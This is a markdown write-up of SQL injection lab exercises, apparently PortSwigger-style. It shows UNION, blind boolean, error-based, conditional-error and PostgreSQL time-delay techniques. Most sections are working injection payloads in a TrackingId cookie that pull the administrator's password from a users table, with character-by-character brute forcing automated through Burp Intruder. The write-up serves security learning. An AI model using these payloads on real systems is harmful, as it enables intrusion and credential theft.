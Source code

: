 # Retrieve multiple values in a single column

### Scenario
Trying to extract administrator's username and password from a table using a UNION injection and putting the two values in a single column.

### Exploit

We can abuse the string concatenation in SQL:

```sql
' UNION SELECT NULL, username || '<->' || password from users -- 
```

# Blind SQL injection with conditional responses

### Scenario

There is a SQL injection point in the "Cookie" request parameter. If the injection is correct we will obtain a "welcome back" messagge. 

### Exploit

With this SQL injection we can confirm the existence of the users table:

```sql
Cookie: TrackingId=ID' AND (SELECT 'a' FROM users LIMIT 1) = 'a'-- 
```
With the following one we can confirm the existence of the user "administrator":

```sql
Cookie: TrackingId=ID' AND (SELECT 'a' FROM users where username= 'administrator') = 'a'-- 
```

With the following one we can confirm the existence of the user "administrator" and try to find out the length of the associated password:

```sql
Cookie: TrackingId=ID' AND (SELECT 'a' FROM users where username= 'administrator' AND LENGTH(password) > 1) = 'a'-- 
```

**We can use Burp Intruder to increment automatically the value of the length in the request**.


Using Burp we found that the password length is exactly 20 chars.

We can use **"SUBSTRING()" SQL funciton** which extract part of a string contained in a DB. This takes three parameters: name of the column, starting point location in the string (with the starting point that is 1 and not 0), number of chars after the starting location.

We are trying to check if the first char of the password of admin user is equal to 'a':

```sql
Cookie: TrackingId=ID' AND (SELECT SUBSTRING(password, 1, 1) FROM users where username= 'administrator') = 'a'-- 
```

Another time, we can use Burp intruder to automate this check and than pass to the next chars.

# Visible error-based (not at all) BLIND SQL injection

### Scenario
We are in a situation in which we noticed that the there is a possible SQL injection in the "cookie" paramenter of the GET request.
We also noticed that if we force an error on the database, an error message is printed on the web pages, this is **a potential information leakege**. We want to exploit it to retrieve the administrator username and password from the table "users".

### Exploit
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users where username= 'administrator') AS INT) -- 
```

Or:
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT) -- 
```


# BLIND SQL, injection with conditional errors

### Scenario
We are in a situation in which no "welcome back" messages are returned if we do the right SQL injection in the Cookie vulnerable field.
Althought, we noticed that if we send the following injection, we obtain an "Internal Server Error" message:

```sql
Cookie: TrackingId=SOME_ID'
```

We now know that the parameter is vulnerable to SQL injection. We want to manioulate this error message in order to extract informations from DB.

### Exploit

We can try something like this:
```sql
Cookie: TrackingId=abc' AND 1=1 --
```

We noticed that we don't get any errors.

We can try using the **CASE() function**:
```sql
Cookie: TrackingId=abc' AND (SELECT CASE WHEN(1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a' --
```
This not return an error because 1 is always different from 2, so the impossible operation 1/0 is never done.

If we change the query as the following we get an error:
```sql
Cookie: TrackingId=abc' AND (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a' --
```

We can try to catch the password length qith a query like this:
```sql
Cookie: TrackingId=abc' AND (SELECT CASE WHEN LENGTH(password) > 1 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a' --
```
We get an error message because password is larger than 1 and so the impossible operation 1/0 is done.

**We can use Burp intruder increasing the length value until we don't get an error anymore**.

We will found that password is exactly 20 chars.

We can now try to brute force every single char of the password:
```sql
Cookie: TrackingId=abc' AND (SELECT CASE WHEN SUBSTR(password, 1, 1) ='a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a' --
```

Another time, we can use the Intruder to automate the reasearch of every char.

# Blind SQL, time delays

### Scenario

We identify a SQL injection inside the "cookie" parameter of the GET request. The bakcend DB is a PosgreSQL. So we need to use the sleep function ps_sleep(seconds) and we can trigger the execution of this function using the concatenation ||.

### Exploit

We can exploit this vulnerability using:
```sql
x' || pg_sleep(10)-- 
```

So in this case, we get the flag but this exploit do nothing interesting.


We need to retrieve informations from the exploit.

```sql
x';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

With the above SQL injection string we can force the DB to sleep or not. If the sleep is triggered we know that the username administrator exists in the users table.

We can, also, try to find out the length of the passsword of the administrator account:


```sql
x';SELECT CASE WHEN (username='administrator' AND LENGHT(password) > 1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

**Using Intruder we can automate the research**.

We can, also, brute force the password using the SUBSTRING method:

```sql
x';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Another time, using Intruder we can automate the research of the password's chars.
